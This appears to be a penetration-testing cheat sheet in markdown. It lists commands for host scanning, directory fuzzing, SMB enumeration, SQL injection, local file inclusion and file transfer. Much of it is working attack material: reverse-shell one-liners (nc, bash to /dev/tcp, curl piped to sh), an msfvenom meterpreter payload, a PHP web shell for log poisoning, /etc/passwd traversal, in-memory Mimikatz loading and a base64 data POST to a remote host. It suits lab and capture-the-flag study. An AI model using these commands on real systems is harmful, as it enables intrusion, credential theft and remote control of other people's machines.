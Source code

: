 # Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

####Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

#### FFUF
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` 	Directory Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` 	Extension Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/dir/FUZZ.php` 	Page Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` 	Recursive Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.domain.com/` 	Sub-domain Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://domain.htb:PORT/ -H 'Host: FUZZ.domain.com' -fs xxx` 	VHost Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php?FUZZ=key -fs xxx` 	Parameter Fuzzing - GET
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` 	Parameter Fuzzing - POST
- `ffuf -w ids.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT  9998`
- `run`

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

###### Web enumeration

LFI
- `http://10.0.0.1/?page=index.php`
- `http://10.0.0.1/?page=../../../etc/passwd`
- `http://10.0.0.1/?page=php://filter/convert.base64-encode/resource=index.php`

Log injection 
- change user agent
- `<?php system($_GET['cmd']); ?>`
- `http://10.0.0.1/?page=../../../var/apache2/access.log?cmd=wget%20http://IP:PORT/shell.php`
- `expect://id`
- `curl -s -X POST --data "<?php system('id'); ?>" "http://10.0.0.1:80/index.php?language=php://input"`

###### Download files

- `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
- `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
- `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
- `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
- `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`



